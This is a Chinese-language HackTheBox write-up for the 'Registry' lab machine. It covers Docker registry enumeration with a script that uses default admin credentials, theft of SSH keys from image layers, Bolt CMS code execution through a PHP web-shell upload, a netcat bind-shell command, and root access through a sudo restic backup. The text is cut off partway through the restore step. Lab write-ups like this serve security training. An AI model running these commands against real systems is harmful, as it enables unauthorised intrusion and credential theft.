# 注册表— HackTheBox 编写

> 原文：<https://infosecwriteups.com/registry-hackthebox-writeup-98c7822ef51f?source=collection_archive---------0----------------------->

## Registry 本周退役，它是我最喜欢的盒子之一，因为它有独特的概念。我们通过枚举 docker registry API 获得了最初的立足点，从而找到了 SSH 凭证。对于 Privesc，我们利用 restic 二进制文件上的 sudo 权限。


我们开始吧

# 列举

像往常一样，让我们从 Nmap 扫描开始。

```
**Nmap scan report for 10.10.10.159
Host is up (0.15s latency).****PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp  open  http     nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp open  ssl/http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=*docker.registry.htb*
| Not valid before: 2019-05-06T21:14:35
|_Not valid after:  2029-05-03T21:14:35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
```

我们通常打开端口，SSH，HTTP 和 HTTPS 开放。SSL 证书公开了一个主机名`***docker.registry.htb***` ***。*** 将其添加到 hosts 文件中。

# 80 — HTTP

访问 [http://10.10.10.159](http://10.10.10.159) 向我们展示 Nginx 默认页面。运行`**gobuster**`给我们这些结果，

```
**/install (Status: 301)
/bolt (Status: 301)**
```

手动访问[http://10 . 10 . 10 . 159/bolt](http://10.10.10.159/bolt)



[**https://bolt.cm/**](https://bolt.cm/)是一款开源的内容管理工具。为`**bolt**` 运行 searchsploit 向我们展示了一个有趣的任意文件上传特性。



运行 gobuster 对抗[**http://10 . 10 . 10 . 159/bolt/**](http://10.10.10.159/bolt/)**返回以下结果。**

****

**访问[**http://10 . 10 . 10 . 159/bolt/bolt/**](http://10.10.10.159/bolt/bolt/)**返回登录页面。****

********

****尝试一些默认凭据不起作用。转移到其他东西，直到我们得到证书…****

# ****docker.registry.htb****

****访问[http://docker . registry . htb](http://docker.registry.htb)将我们带到一个空白页面。运行 gobuster 会返回一个有趣的端点。****

```
****/v2 (Status: 301)****
```

********

****我们在回复中看到了一个有趣的标题****

```
****Docker-Distribution-Api-Version registry/2.0****
```

****谷歌上述标题，我们可以看到 Docker 注册 API 文档。
[**https://docs . docker . com/registry/spec/API/# listing-repositories**](https://docs.docker.com/registry/spec/api/#listing-repositories)****

********

****我看到了这篇很棒的文章，它描述了测试 Docker 注册表的方法。****

****[](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/) [## 黑客剖析:Docker 注册表

### Docker 是一种流行的容器技术，已经被世界各地的行业广泛接受。它被用于…

www.notsosecure.com](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/) 

我们可以完成上面提到的步骤，但这需要很多时间。他们好心地自动完成了整个过程。

[](https://github.com/NotSoSecure/docker_fetch/) [## NotSoSecure/docker_fetch

### Docker 注册表 API 的数据提取工具。通过创建一个帐户来为 NotSoSecure/docker_fetch 开发做贡献…

github.com](https://github.com/NotSoSecure/docker_fetch/) 

这个脚本需要稍微修改，以便添加授权头，因为我们需要向服务器进行身份验证。



> 用户:管理员
> 通行证:管理员

***管理:管理*** 对我们来说很好。我已经为脚本向服务器发出的每个请求添加了授权头。

```
**import os
import json
import optparse
import requests

# pulls Docker Images from unauthenticated docker registry api. 
# and checks for docker misconfigurations. 

apiversion = "v2"
final_list_of_blobs = []

# Disable insecure request warning 
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="URL Endpoint for Docker Registry API v2\. Eg https://IP:Port", default="spam")
options, args = parser.parse_args()
url = options.url
headers = {"Authorization": "Basic YWRtaW46YWRtaW4=" }

def list_repos():
 req = requests.get(url+ "/" + apiversion + "/_catalog", verify=False,headers=headers)
        print req.text
 return json.loads(req.text)["repositories"]

def find_tags(reponame):
 req = requests.get(url+ "/" + apiversion + "/" + reponame+"/tags/list", verify=False,headers=headers )
 print "\n"
 data =  json.loads(req.content)
 if "tags" in data:
  return data["tags"]

def list_blobs(reponame,tag):
 req = requests.get(url+ "/" + apiversion + "/" + reponame+"/manifests/" + tag, verify=False,headers=headers )
 data = json.loads(req.content)
 if "fsLayers" in data:
  for x in data["fsLayers"]:
   curr_blob = x['blobSum'].split(":")[1]
   if curr_blob not in final_list_of_blobs:
    final_list_of_blobs.append(curr_blob)

def download_blobs(reponame, blobdigest,dirname):
 req = requests.get(url+ "/" + apiversion + "/" + reponame +"/blobs/sha256:" + blobdigest, verify=False,headers=headers)
 filename = "%s.tar.gz" % blobdigest
 with open(dirname + "/" + filename, 'wb') as test:
  test.write(req.content)

def main(): 
 if url is not "spam":
  list_of_repos = list_repos()
  print "\n[+] List of Repositories:\n"
  for x in list_of_repos:
   print x
  target_repo = raw_input("\nWhich repo would you like to download?:  ")
  if target_repo in list_of_repos:
   tags = find_tags(target_repo)
   if tags is not None:
    print "\n[+] Available Tags:\n"
    for x in tags:
     print x

    target_tag = raw_input("\nWhich tag would you like to download?:  ")
    if target_tag in tags:
     list_blobs(target_repo,target_tag)

     dirname = raw_input("\nGive a directory name:  ")
     os.makedirs(dirname)
     print "Now sit back and relax. I will download all the blobs for you in %s directory. \nOpen the directory, unzip all the files and explore like a Boss. " % dirname
     for x in final_list_of_blobs:
      print "\n[+] Downloading Blob: %s" % x
      download_blobs(target_repo,x,dirname)
    else:
     print "No such Tag Available. Qutting...."
   else:
    print "[+] No Tags Available. Quitting...."
  else:
   print "No such repo found. Quitting...."
 else:
  print "\n[-] Please use -u option to define API Endpoint, e.g. https://IP:Port\n"

if __name__ == "__main__":
 main()**
```



这将下载所有的 blobs。



让我们使用最大大小的文件。在提取文件时，我们可以看到整个文件系统。



在枚举目录时，我们获取 SSH 密钥并通过读取 ***找到用户名。bash_history*** 文件和一个有趣的 SSH 脚本。



# 螺栓外壳

既然我们已经有了用户名、SSH 密钥和密码，现在是登录的时候了。



我们发现一个有趣的`**backup.php**`



我们可以假设用户`**www-data**` 对`**restic**` 二进制文件拥有 sudo 权限，因为 bolt cms 是作为 www-data 用户运行的。



让我们来破解哈希



让我们一起来探索博尔特 https://fgsec.net/from-csrf-to-rce-bolt-cms/[RCE](https://fgsec.net/from-csrf-to-rce-bolt-cms/)。



我们可以添加`**php**` 作为接受的文件类型，然后上传一个逆向 shell。不幸的是，我们不能直接得到一个反向的 shell，可能是出站连接有限制。

我们可以通过下载一个文件到盒子上来证明。



既然得不到反向壳，那就来个绑定壳吧。

```
[**http://10.10.10.159/bolt/files/simple-backdoor.php?cmd=nc.traditional -lvp 4444 -e /bin/bash**](http://10.10.10.159/bolt/files/simple-backdoor.php?cmd=nc.traditional -lvp 4444 -e /bin/bash)
```



# 特权—根

正如之前所料，`**www-data**`拥有对`**restic**`二进制文件的 sudo 权限。



看[文档](https://restic.readthedocs.io/en/latest/010_introduction.html)，我们了解到`**restic is a fast and secure backup information**` **。**

既然我们在`**restic backup**`**上拥有 sudo 特权，那么让我们来看看 backup 子命令能做什么。**

********

> **`**restic backup**`命令创建新的快照并保存文件和目录，`**-r**`代表要备份或从中恢复的存储库。**

****

**我在`**/tmp**`中创建了一个目录`**abc**`，然后试着备份那里的`**/root**`文件夹，但是遇到了一个错误。**

**因此，我们必须创建一个新的存储库。**

> **保存备份的地方称为“存储库”。存储库可以存储在本地，也可以存储在某个远程服务器或服务上**

****

**理想情况下，现在我们可以备份到`**/tmp/backup**`，但是我们可以执行的 sudo 命令是**

> **`**sudo /usr/bin/restic backup -r rest***`**

**因此，我创建了一个名为`**rest123**` 的 repo，以便与 regex `**rest***`匹配**

****

**现在我们已经将根文件夹备份到了`**/tmp/rest123**` 存储库中。让我们恢复回购的数据。按照中提到的步骤**

**[](https://restic.readthedocs.io/en/latest/050_restore.html#restoring-from-a-snapshot) [## 从备份恢复- restic 0.9.6 文档

### 使用 word 恢复上次备份。您还可以结合和筛选器来选择的最后一次备份…

